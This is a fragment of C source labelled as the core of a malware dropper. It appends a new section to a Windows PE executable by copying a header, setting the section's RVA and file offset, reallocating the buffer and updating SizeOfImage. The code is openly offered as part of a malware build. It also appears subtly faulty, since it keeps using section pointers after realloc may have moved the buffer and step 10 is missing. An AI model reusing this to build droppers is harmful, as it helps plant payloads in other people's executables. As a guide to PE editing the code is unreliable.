

Dropper Core Implementation-Add a new section
                // 5. Copy the complete information of the source section to the new section
	memcpy(NewSection, SrcSection, sizeof(IMAGE_SECTION_HEADER));

	// 6. Set the section name
	memcpy(NewSection->Name, SectionName, 7);

	// 7. Set the RVA of the new section  = the RVA of the old last section + aligned memory size
	NewSection->VirtualAddress = LastSection->VirtualAddress +
		Alignment(LastSection->Misc.VirtualSize, OptHeader(FileBase)->SectionAlignment);

	// 8. Set the FOA of the new section =  the FOA of the old last section + aligned file size
	NewSection->PointerToRawData = LastSection->PointerToRawData +
		Alignment(LastSection->SizeOfRawData, OptHeader(FileBase)->FileAlignment);

	// 9. Recalculate the file size and apply for new space to save the original data
	FileSize = NewSection->SizeOfRawData + NewSection->PointerToRawData;
	FileBase = (DWORD)realloc((VOID*)FileBase, FileSize);

	// 11. Set SizeOfImage = RVA of the new last section + memory size of the new last section
	OptHeader(FileBase)->SizeOfImage = NewSection->VirtualAddress + NewSection->Misc.VirtualSize;
}